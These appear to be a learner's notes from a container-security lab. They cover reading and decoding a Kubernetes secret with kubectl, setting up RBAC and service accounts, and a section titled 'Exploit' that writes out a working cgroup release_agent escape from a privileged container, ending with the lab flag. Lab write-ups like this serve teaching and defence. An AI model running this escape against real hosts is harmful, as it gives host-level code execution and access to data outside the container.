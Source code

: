 ```shell
kubectl get secret terminal-creds -o jsonpath='{.data.password}' | base64 --decode
```

![Pasted image 20250729155605.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729155605.png)

**Managing Secrets Using kubectl Secrets Manager**

```shell
kubectl apply -f role.yaml
```

![Pasted image 20250729160455.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729160455.png)

Here, sa stands for service account.

```shell
kubectl create sa terminal-user
kubectl create sa terminal-admin
```

![Pasted image 20250729160515.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729160515.png)

**Testing the RBAC Configuration**
After applying the RBAC, we can see that the  configuration is working as intended.

![Pasted image 20250729160704.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729160704.png)

**Container Vulnerabilities 01 : Privileged Containers:**

![Pasted image 20250729162555.png](/placeholder.svg?height=400&width=600&query=Pasted%20image%2020250729162555.png)

**Exploit :**

```shell
root@7b7461f9882e:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
root@7b7461f9882e:~# echo 1 > /tmp/cgrp/x/notify_on_release
root@7b7461f9882e:~# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@7b7461f9882e:~# echo "$host_path/exploit" > /tmp/cgrp/release_agent
root@7b7461f9882e:~# echo '#!/bin/sh' > /exploit
root@7b7461f9882e:~# echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
root@7b7461f9882e:~# chmod a+x /exploit
root@7b7461f9882e:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@7b7461f9882e:~# cd ..
root@7b7461f9882e:/# ls
bin  boot  dev  etc  exploit  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@7b7461f9882e:/# cat flag.txt
THM{MOUNT_MADNESS}
root@7b7461f9882e:/# cat exploit 
#!/bin/sh
cat /home/cmnatic/flag.txt > /var/lib/docker/overlay2/40514823f5b4459a5a8748fc31b81329a3b9a8f8ed8e373fdfb43ce43480b415/diff/flag.txt
root@7b7461f9882e:/#
```
